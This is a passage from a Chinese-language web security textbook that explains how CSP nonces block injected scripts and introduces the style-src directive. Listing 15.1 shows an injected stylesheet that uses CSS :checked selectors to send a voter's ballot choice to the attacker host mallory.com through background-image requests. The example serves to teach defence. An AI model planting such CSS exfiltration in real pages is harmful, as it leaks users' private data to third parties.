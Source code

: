 一个 nonce 来源如何缓解 XSS？假设 Alice 为 bank.alice.com 添加了这一层防御。Mallory 然后发现了另一个 XSS 漏洞，并计划再次向 Bob 的浏览器注入恶意脚本。要成功执行此攻击，Mallory 必须使用 Alice 将要从 Alice 那里收到的相同 nonce 准备脚本。Mallory 事先无法知道 nonce，因为 Alice 的服务器甚至还没有生成它。此外，Mallory 猜对数字的机会几乎为零；在拉斯维加斯赌博会给她比针对 Alice 银行更好的发财机会。

一个 nonce 来源可以缓解 XSS，同时使内联脚本执行。这是最佳选择，既提供了像 `none` 一样的安全性，又像 `unsafe-inline` 一样促进了功能开发。

style-src 指令

正如名称所示，`style-src` 控制浏览器如何处理 CSS。与 JavaScript 一样，CSS 是 Web 开发人员交付功能的标准工具；它也可能被 XSS 攻击利用。

假设 2024 年美国总统选举正在进行中。整个选举只有两个候选人：Bob 和 Eve。有史以来第一次，选民可以在 Charlie 的新网站 ballot.charlie.com 上线上投票。Charlie 的内容安全策略阻止了所有 JavaScript 执行，但未解决 CSS 问题。

Mallory 发现了另一个反射型 XSS 机会。她给 Alice 发送了一个恶意链接。Alice 点击链接并收到了列表 15.1 中显示的 HTML 页面。该页面包含了由 Charlie 撰写的包含两个候选人的下拉列表；它还包含了由 Mallory 植入的样式表。

Mallory 的样式表动态设置了 Alice 所选选项的背景。这个事件触发了一个网络请求来获取背景图像。不幸的是，网络请求还以查询字符串参数的形式向 Mallory 透露了 Alice 的投票情况。Mallory 现在知道了 Alice 投票给了谁。

列表 15.1 Mallory 在 Alice 的浏览器中注入恶意样式表

```html
<html>

    <style>                                                    /* ❶ */
        option[value=bob]:checked {                            /* ❷ */
            background: url(https://mallory.com/?vote=bob);    /* ❸ */
        }
        option[value=eve]:checked {                            /* ❹ */
            background: url(https://mallory.com/?vote=eve);    /* ❺ */
        }
    </style>

    <body>
        ...
        <select id="ballot">
            <option>Cast your vote!</option>
            <option value="bob">Bob</option>                   <!-- ❻ -->
            <option value="eve">Eve</option>                   <!-- ❻ -->
        </select>
        ...
    </body>

</html>
```

❶ Mallory 注入的样式表

❷ 如果 Alice 为 Bob 投票，则触发

❸ 将 Alice 的选择发送给 Mallory

❹ 如果 Alice 为 Eve 投票

❺ 将 Alice 的选择发送给 Mallory

❻ 两位总统候选人

